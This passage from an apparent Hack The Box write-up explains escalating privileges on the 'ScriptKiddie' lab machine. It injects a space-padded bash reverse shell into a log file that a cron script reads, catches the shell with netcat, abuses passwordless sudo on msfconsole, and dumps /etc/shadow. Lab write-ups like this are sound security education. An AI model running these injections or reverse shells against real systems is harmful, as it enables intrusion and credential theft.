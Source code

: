 Explanation of what we're seeing. cat $log, is reading input from /home/kid/logs/hackers file (which our current user has access to). cut -d ' ' will count each space (' ') as the end of a field, and -f3- will output the 3rd field and anything after it (e.g. cutting out everything before the second space).


I see this example in home/kid/html/hackers (the method for initiating a reverse shell), I just need to get this into /home/kid/logs/hackers, so that scanlosers.sh does its 'cat $log' read, thus initiating the reverse shell, as user 'pwn'.
```
/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.16/4545 0>&1' #
```

Remember that thing about delimiters we looked at previously? If I don't pad this with 3 spaces, it's going to cut out the 'bin/bash -c 'bash' part of our command. So we've got some leading spaces here:
```bash
echo "   ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.111/8990 0>&1' #" >> hackers
```

We can see that the reverse-shell picked up, as pwn.
What can I run as root? Oh, metasploit? You don't say:
```bash
┌──(root💀kali)-[/home/ghohst/Documents/HTB/scriptk]
└─# nc -lvnp 8990
listening on [any] 8990 ...
connect to [10.10.14.111] from (UNKNOWN) [10.10.10.226] 52940
bash: cannot set terminal process group (871): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
pwn@scriptkiddie:~$
```

Since we're essentially an escalated shell from here, we just cat root/root.txt for the final flag.

# Extra Credit
I did, also, cat /etc/shadow so I can smash the user passwords if I wanted to. If for whatever reason I was unable to gather the flag right away and needed to SSH back into the machine, I could potentially crack these and go that route as our foothold.
```bash
msf6 > cat /etc/shadow
stty: 'standard input': Inappropriate ioctl for device
[*] exec: cat /etc/shadow
```
